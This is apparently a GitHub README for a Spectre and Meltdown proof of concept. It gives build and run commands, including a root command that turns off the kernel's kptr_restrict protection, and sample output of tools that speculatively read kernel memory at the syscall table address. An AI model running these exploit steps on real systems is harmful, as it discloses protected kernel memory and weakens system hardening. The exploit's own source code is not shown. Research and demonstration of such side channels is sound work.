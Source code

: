Spectre and Meltdown Proof-of-Concept
=====================================

Read kernel addresses by stalling the pipeline and speculatively hitting a cacheline:

```
$ make
...
$ grep ' sys_call_table' /proc/kallsyms
ffffffff8f800180 R sys_call_table

If the above shows something like:

0000000000000000 R sys_call_table you have two options, the first is something like
this:

$ sudo sh -c "echo 0  > /proc/sys/kernel/kptr_restrict"

which will enable kallsyms. Your other option is to simple read the syscall table
address from your System.map file, so something like this:

sudo cat /boot/System.map-4.8.0-53-generic  | grep sys_call_table

It seems silly to use root access to find the syscall table to run this exploit
(since with root access you could just read from memory), but this is just to get
this POC running with some interesting data coming back.

$ ./poc ffffffff8f800180
0xffffffff8f800180 | 10 40 23 8f ff ff ff ff d0 40 23 8f ff ff ff ff
0xffffffff8f800190 | c0 14 23 8f ff ff ff ff 60 f6 22 8f ff ff ff ff
0xffffffff8f8001a0 | 40 91 23 8f ff ff ff ff 70 91 23 8f ff ff ff ff
0xffffffff8f8001b0 | 50 91 23 8f ff ff ff ff 10 af 24 8f ff ff ff ff
...
```

![Motivational GIF](http://tcpst.net/unea.gif)

Read kernel addresses by poisoning the branch predictor and speculatively hitting a cacheline:
```
$ ./poc_poison ffffffff8f800180
cutoff: 192
0xffffffff8f800180 | 10 40 23 8f ff ff ff ff d0 40 23 8f ff ff ff ff
...
```

Visualize memory read timings:
```
$ ./poc_vis ffffffff8f800180
```

